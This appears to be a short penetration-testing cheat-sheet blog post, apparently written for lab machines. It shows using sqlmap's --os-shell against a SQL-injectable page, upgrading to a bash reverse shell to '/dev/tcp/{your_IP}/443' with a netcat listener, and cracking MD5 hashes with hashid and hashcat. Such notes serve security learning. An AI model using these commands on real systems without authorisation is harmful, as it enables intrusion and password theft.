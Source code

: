 ```yaml
---
title: SQLMAP
published: true
author:
  name: Aissa Ben yahya
date: 2022-02-10 16:09:00 +0100
categories: [Hacking, Tools]
tags: [Hacking]
---
```


## SQL Map
---
SQLMAP is a tool to search for sql injection vulnerabilities.

### Get a shell with sqlmap

```bash
sqlmap -u 'http://10.129.171.190/dashboard.php?search=sa' --cookie="PHPSESSID=dnmjjjj6rias1o8pc3ob5rj7j9" --os-shell
```
If something goes wrong with your sqlmap tool after a successful usage, you can try and flush the session by adding `--flush-session --time-sec=20` argument

The command line above will grant you with a shell but it's not very stable. In order to make the shell stable we will use the following payload
```bash
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```
but first you need to open a listener in another terminal on port 443 using `netcat`:
```bash
nc  -lvnp 443
```
To make the shell fully interactive I recommand you to check [Stable shell]({% post_url 2022-02-10-stableshell %}) 

## Hashcat
Hashcat is a tool used to crack the hashed passwords. But first before diving on how hashcat works it better to identify the hash type.
```bash
hashid 'hash_value_here'
```
Put the hash in file
```bash
echo 'hash_value' > file_name
```
Now to crack an MD5 hash type the following
```bash
hashcat -a 0 -m 0 file_name /the/path/to/wordlist
```

